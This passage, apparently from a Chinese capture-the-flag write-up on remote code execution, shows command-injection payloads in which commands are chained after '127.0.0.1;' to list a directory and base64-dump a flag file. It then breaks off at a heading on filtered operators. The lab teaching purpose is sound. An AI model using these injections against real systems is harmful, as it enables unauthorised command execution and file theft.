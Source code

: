 切换目录得知是哪个flag文件。

```
127.0.0.1;cd flag_is_here;ls
```

![image-20240817150957043](远程代码执行/image-20240817150957043.png)	

查看该文件，解码复制flag提交即可通关。

```
127.0.0.1;cd flag_is_here;cat flag_16858894424626.php|base64
```

![image-20240817151042975](远程代码执行/image-20240817151042975.png)	

### 过滤运算符
